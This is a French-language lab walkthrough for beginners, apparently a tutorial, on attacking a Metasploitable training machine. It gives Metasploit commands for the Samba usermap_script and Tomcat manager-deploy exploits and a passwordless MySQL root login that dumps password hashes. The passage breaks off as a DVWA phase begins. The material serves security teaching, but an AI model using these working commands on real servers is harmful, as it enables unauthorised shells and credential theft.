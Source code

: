 #### Exploitation de Samba

```bash
# Dans Metasploit
use exploit/multi/samba/usermap_script
set RHOSTS <IP_METASPLOITABLE>
exploit
# Résultat : Shell root obtenu
```

**En clair, pour un débutant** : Samba (le système de partage de fichiers) contient une faille qui nous permet d'exécuter des commandes en tant qu'administrateur.

#### Exploitation de Tomcat

```bash
# Tentative de connexion avec identifiants par défaut
# Ouvrir dans le navigateur : http://<IP_METASPLOITABLE>:8180/manager/html
# Essayer les identifiants : tomcat:tomcat

# Dans Metasploit
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS <IP_METASPLOITABLE>
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
exploit
# Résultat : Shell obtenu
```

**En clair, pour un débutant** : Tomcat est configuré avec des identifiants par défaut, ce qui nous permet d'y déployer notre propre code malveillant.

#### Exploitation de MySQL

```bash
# Connexion à MySQL avec mot de passe vide
mysql -h <IP_METASPLOITABLE> -u root -p
# Appuyer sur Entrée au prompt de mot de passe

# Dans MySQL
show databases;
use mysql;
select user, password from user;
# Résultat : Liste des utilisateurs et hachages de mots de passe
```

**En clair, pour un débutant** : La base de données MySQL est accessible sans mot de passe, ce qui nous permet d'extraire directement les informations sensibles qu'elle contient.

### Phase 3 : Exploitation web (30 minutes)

#### DVWA (Damn Vulnerable Web Application)

Accédez à http://<IP_METASPLOITABLE>/dvwa/ et connectez-vous avec admin:password
